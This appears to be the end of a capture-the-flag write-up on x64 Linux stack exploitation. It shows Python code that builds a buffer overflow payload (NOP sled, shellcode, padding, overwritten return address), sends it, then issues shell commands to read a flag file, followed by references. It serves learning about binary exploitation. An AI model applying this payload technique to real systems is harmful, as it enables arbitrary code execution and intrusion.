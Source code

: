 ```

buf  = b''

nops = b'\x90' * 10  # Small NOPs sled before the shellcode
buf += nops

buf += shellcode
buf += b'\x41' * (offset - len(nops) - len(shellcode))
buf += struct.pack('<Q', leak_addr - 2)  # Address of payload on the stack
buf += b'\x42' * (100 - len(buf))  # 100 bytes being read (fgets is waiting ..)

# Execute some commands in the shell
cmds = b'\x0apwd\x0als -al\x0acat flag.txt\x0a'
buf += cmds

# Send the BOF payload
io.send(buf)
print(io.recvrepeat(2))
```

## References

[Pwntools tutorial - Debugging](https://github.com/Gallopsled/pwntools-tutorial/blob/master/debugging.md)
[Linux/x64 - execve(/bin/sh) Shellcode (23 bytes)](https://www.exploit-db.com/exploits/46907)
[How to Test a Shellcode](https://rjordaney.is/lectures/test_a_shellcode/)
[fgets() Deprecated and dangerous](http://www.crasseux.com/books/ctutorial/fgets.html)
[Introduction to x64 Linux Binary Exploitation (Part 1)](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-1-14ad4a27aeef)
[Controlling stack execution protection](https://www.ibm.com/docs/en/linux-on-z?topic=protection-control)
[GDB exiting instead of spawning a shell](https://stackoverflow.com/questions/30972544/gdb-exiting-instead-of-spawning-a-shell)
